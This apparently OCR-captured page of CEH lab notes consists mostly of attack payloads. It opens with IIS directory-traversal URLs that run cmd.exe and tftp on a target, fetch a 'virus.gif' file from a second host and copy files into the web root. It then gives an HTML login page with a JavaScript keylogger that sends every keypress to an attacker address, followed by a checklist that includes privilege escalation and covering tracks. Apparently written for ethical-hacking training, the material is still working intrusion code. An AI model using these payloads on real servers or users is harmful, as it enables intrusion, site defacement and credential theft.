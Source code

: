 http://192.168.252.155/scripts/../../winnt/system32/cmd.exe?/c+dir+c:\\

http://192.168.252.155/scripts/..%255c%255c../winnt/system32/ping.exe?+192.168.252.152

http://192.168.252.155/scripts/..%255c%255c../winnt/system32/arp.exe?+-a

http://192.168.252.155/scripts/..%255c%255c../winnt/system32/tftp.exe?+192.168.252.152+get+default.htm

http://192.168.252.155/scripts/..%255c%255c../winnt/system32/tftp.exe?+-i+192.168.252.152+get+virus.gif

http://192.168.252.155/scripts/..%255c%255c../winnt/system32/cmd.exe?/c+copy+c:\inetpub\scripts\default.htm+c:\inetpub\wwwroot\\

[[http://192.168.252.155/scripts/..%255c%255c../winnt/system32/cmd.exe?/c+copy+c:\inetpub\scripts\virus.gif+c:\inetpub\wwwroot\\]{.underline}](http://192.168.252.155/scripts/..%255c%255c../winnt/system32/cmd.exe?/c+copy+c:%5Cinetpub%5Cscripts%5Cvirus.gif+c:%5Cinetpub%5Cwwwroot%5C)

\<!doctype html\>

\<html\>

\<body\>

\<h1\>A web page served by netcat!\</h1\>

\<form id=\"login-form\"\>

\<input type=\"text\" name=\"username\" id=\"username-field\"
class=\"login-form-field\" placeholder=\"Username\"\>

\<input type=\"password\" name=\"password\" id=\"password-field\"
class=\"login-form-field\" placeholder=\"Password\"\>

\<input type=\"submit\" value=\"Login\" id=\"login-form-submit\"\>

\</form\>

\<script\>

var attacker = \'http://192.168.6.128:31337/?key=\';

document.onkeypress = function (payload) {

new Image().src = attacker + payload.key;

}

\</script\>

\</body\>

\</html\>

CEH - \[x\] Footprinting - \[x\] Scanning - \[x\] Enumeration - \[x\]
Vulnerability Analysis - \[x\] System Hacking \*\* Gaining Access **-
\[x\] Cracking passwords - \[x\] Vulnerability Exploitation** Escalating
Privileges Maintaining Access **- \[x\] Executing Applications - \[x\]
Hiding Files** Clearing Logs \*\* - \[x\] Covering Tracks

#### Online Resources
